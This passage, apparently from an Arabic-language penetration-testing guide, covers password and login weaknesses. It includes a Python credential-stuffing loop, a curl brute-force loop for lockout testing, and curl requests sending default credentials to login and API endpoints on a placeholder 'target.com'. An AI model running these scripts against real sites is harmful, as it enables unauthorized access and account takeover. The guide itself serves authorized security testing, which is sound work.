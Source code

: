 4. **Credential Stuffing ببيانات مسربة**:
   - **البيانات**: `user1@example.com:qwerty`، `admin:admin123`، إلخ.
   - **الأدوات**: Burp Suite Intruder، سكربت Python.
   - **الأمر** (Python):
     ```python
     import requests
     url = "https://target.com/login"
     credentials = [{"username": "user1@example.com", "password": "qwerty"}, ...]
     for cred in credentials:
         response = requests.post(url, data={"username": cred["username"], "password": cred["password"]})
         if "incorrect" not in response.text.lower():
             print(f"نجاح: {cred['username']}:{cred['password']}")
         else:
             print(f"فشل: {cred['username']}:{cred['password']}")
     ```

5. **اختبار قيود المحاولات وقفل الحساب**:
   - **البيانات**: `username: test`، `password: wrong1`، `wrong2`، إلخ.
   - **الأدوات**: متصفح، Burp Suite، cURL.
   - **الأمر**:
     ```bash
     for i in {1..10}; do curl -X POST -d "username=test&password=wrong$i" https://target.com/login; done
     ```

6. **اختبار إعادة استخدام كلمة المرور مع اسم المستخدم**:
   - **البيانات**: `username: test`، `password: test`؛ `username: user1@example.com`، `password: user1`.
   - **الأدوات**: متصفح، Burp Suite.
   - **الأمر**:
     - **POST /register**
     - **Host**: target.com
     - **Content-Type**: application/x-www-form-urlencoded
     - **Body**: username=test&password=test&email=test@example.com

7. **اختبار نقاط API لمعالجة كلمات المرور**:
   - **البيانات**: `{"username": "admin", "password": "password"}`.
   - **الأدوات**: Postman، cURL، Burp Suite.
   - **الأمر**:
     ```bash
     curl -X POST -H "Content-Type: application/json" -d '{"username":"admin","password":"password"}' https://target.com/api/login
     ```

---

### **مثال لنتيجة السيناريو**
- **كلمة مرور ضعيفة**: تسجيل دخول ناجح بـ `admin:password`.
- **مافيش قيود**: 100+ محاولة بـ Hydra بدون CAPTCHA أو قفل.
- **تسجيل ضعيف**: إنشاء حساب بكلمة مرور `123`.
- **ثغرة API**: الـ API في `/api/login` بيقبل `admin:admin` بدون قيود.
